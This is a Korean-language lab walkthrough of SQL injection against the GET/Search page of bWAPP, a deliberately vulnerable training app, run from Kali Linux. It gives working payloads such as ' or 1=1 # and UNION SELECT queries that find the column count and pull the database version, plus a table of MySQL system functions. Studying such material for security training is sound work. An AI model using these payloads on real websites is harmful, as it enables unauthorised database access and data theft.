 * SQL 인젝션 GET/SEARCH를 해보겠음

### 1. 칼리리눅스에서 BWapp 들어가서 SQL Injetion (Get/Search) 들어가기

![image](https://user-images.githubusercontent.com/28076542/51786985-4c068580-21af-11e9-8525-796757019fc3.png)

* 검색창에 `'`를 쓰면 오류, `"`를 쓰면 오류가 안나므로 SQL에서 `'`를 씀을 알 수 있음

### 2. 검색창에 다음 SQL 입력

* `' or 1=1 #`

![image](https://user-images.githubusercontent.com/28076542/51787058-655c0180-21b0-11e9-992a-87b8a87f63d6.png)

* 위와 같이 영화 목록이 쭉 나오는 것을 알 수 있음

### 3. union select를 통해 여러 결과를 출력

#### 'UNION SELECT ALL 1 #0`, `'UNION SELECT ALL 1#0

![image](https://user-images.githubusercontent.com/28076542/51787174-ac96c200-21b1-11e9-9cc6-60cd6b860688.png)

#### 'UNION SELECT ALL 1#0`, `'UNION SELECT ALL 1,2,3,4,5,6,7#0

![image](https://user-images.githubusercontent.com/28076542/51787189-f8496b80-21b1-11e9-9c28-6cd6abbb23c8.png)

* union select는 column 수를 정확히 알아야 하므로 `' UNION SELECT ALL 1#0`, `' UNION SELECT ALL 1,2#0`...을 통해 오류가 나지 않을 때까지 시도를 해봐야 함
* 시도 결과 column의 개수는 7개라는 것을 알 수 있음
* 이를 이용하여 다음과 같은 명령을 입력하여 원하는 정보를 얻을 수 있음
* `''' union select 1,2,3,4,5,6,7 #`

![image](https://user-images.githubusercontent.com/28076542/51787294-4d39b180-21b3-11e9-8ab7-b690ebf11392.png)

* `''' union select 1,@@version,3,4,5,6,7 #`

![image](https://user-images.githubusercontent.com/28076542/51787305-765a4200-21b3-11e9-874f-a6fe33124ec1.png)

#### 시스템 변수 및 함수 표

|시스템 변수 및 함수|설명|
|:----:|:----:|
|database()|DB명을 알려주는 함수|
|user()|현재 사용자의 아이디|
|system_user()|최고 권한 사용자의 아이디|
|@@version|DB 서버의 버전|
|@@datadir|DB 서버가 존재하는 디렉터리|
